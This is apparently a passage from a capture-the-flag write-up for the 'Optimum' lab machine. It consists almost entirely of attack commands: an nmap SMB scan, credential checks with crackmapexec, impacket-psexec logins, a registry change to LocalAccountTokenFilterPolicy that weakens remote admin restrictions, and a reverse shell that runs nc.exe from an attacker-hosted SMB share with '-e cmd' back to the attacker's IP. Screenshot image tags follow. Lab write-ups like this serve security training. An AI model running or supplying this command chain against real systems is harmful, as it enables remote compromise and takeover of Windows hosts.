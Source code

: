 > **Attacker Machine**:

```bash
sudo nmap -sS --min-rate 5000 -p445 --open -vvv -Pn -n 10.129.189.113             # :)

crackmapexec smb 10.129.189.113 -u 'oldboy4life' -p 'oldboy4l123$'              # :)

impacket-psexec 'WORKGROUP/oldboy4life:oldboy4l123$@10.129.189.113' cmd.exe     # :(
```

> **Victime Machine**:

```cmd
net share pwn3d_folder=C:\Windows\Temp /GRANT:Administrators,FULL
```

> **Attacker Machine**:

```bash
crackmapexec smb 10.129.189.113 -u 'oldboy4life' -p 'oldboy4l123$'              # :(
```

> **Victime Machine**:

```cmd
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

> **Attacker Machine**:

```bash
crackmapexec smb 10.129.189.113 -u 'oldboy4life' -p 'oldboy4l123$'
crackmapexec smb 10.129.189.113 -u 'oldboy4life' -p 'oldboy4l123$' -x 'whoami'
impacket-psexec 'WORKGROUP/oldboy4life:oldboy4l123$@10.129.189.113' cmd.exe     # :)

impacket-smbserver smbFolder $(pwd) -smb2support
sudo rlwrap -cAr nc -nlvp 443
crackmapexec smb 10.129.189.113 -u 'oldboy4life' -p 'oldboy4l123$' -x '\\10.10.14.84\smbFolder\nc.exe -e cmd 10.10.14.84 443'
```

<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
